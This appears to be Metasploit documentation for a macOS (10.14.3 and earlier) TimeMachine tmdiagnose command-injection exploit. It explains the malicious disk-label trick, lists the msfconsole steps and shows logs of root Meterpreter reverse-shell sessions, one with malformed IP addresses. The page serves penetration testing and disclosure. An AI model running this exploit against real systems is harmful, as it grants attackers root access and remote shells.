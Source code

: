 ## Vulnerable Application

This module exploits a command injection in TimeMachine on macOS <= 10.14.3 in order to run a payload as root. The tmdiagnose binary on OSX <= 10.14.3 suffers from a command injection vulnerability that can be exploited by creating a specially crafted disk label.

The tmdiagnose binary uses awk to list every mounted volume, and composes shell commands based on the volume labels. By creating a volume label with the backtick character, we can have our own binary executed with root privileges.

## Verification Steps

1. Get a session on a vulnerable system
2. `use exploit/osx/local/timemachine_cmd_injection`
3. `set lhost <IP>`
4. `set lport <PORT>`
5. `set session <session_id>`
6. `run`

## Scenarios

### Mac OSX 10.14.3 (Mojave)

```

msf exploit(multi/handler) > use exploit/osx/local/timemachine_cmd_injection
msf exploit(osx/local/timemachine_cmd_injection) > exploit

[!] SESSION may not be compatible with this module.
[*] Started reverse TCP handler on 192.168.0.2:5555
[*] Uploading file: '/tmp/qhjlknnmf'
[*] Executing exploit '/tmp/qhjlknnmf'
[*] Exploit result:
2019-04-18 16:18:29.190 qhjlknnmf[51122:107119] creating dmg image
2019-04-18 16:18:33.300 qhjlknnmf[51122:107119] mounting malformed disk
2019-04-18 16:18:33.564 qhjlknnmf[51122:107119] sending XPC msg
2019-04-18 16:18:33.564 qhjlknnmf[51122:107119] now wait a few minutes for the root command to run
[*] Transmitting first stager...(210 bytes)
[*] Transmitting second stager...(8192 bytes)
[*] Sending stage (808504 bytes) to 192.168.0.2
[*] Meterpreter session 2 opened (192.168.0.2:5555 -> 192.168.0.2:34270) at 2019-04-18 16:20:02 +0800

meterpreter > getuid
Server username: uid=0, gid=0, euid=0, egid=0
```

### MacOS 10.13.3 (High Sierra)

```
[!] SESSION may not be compatible with this module.
[*] Started reverse TCP handler on 192.168.86.1.31:4444
[*] Uploading file: '/tmp/.xbdtqiynvb'
[*] Executing exploit '/tmp/.xbdtqiynvb'
[*] Exploit result:
2019-06-29 12:26:29.052 .xbdtqiynvb[553:3447] creating dmg image
2019-06-29 12:26:33.193 .xbdtqiynvb[553:3447] mounting malformed disk
2019-06-29 12:26:33.533 .xbdtqiynvb[553:3447] sending XPC msg
2019-06-29 12:26:33.534 .xbdtqiynvb[553:3447] now wait a few minutes for the root command to run
[*] Transmitting first stager...(210 bytes)
[*] Transmitting second stager...(8192 bytes)
[*] Sending stage (813560 bytes) to 192.168.86.1.32
[*] Meterpreter session 3 opened (192.168.86.1.31:4444 -> 192.168.86.1.32:55888) at 2019-06-29 05:27:24 -0500

meterpreter > getuid
Server username: uid=0, gid=0, euid=0, egid=0
```
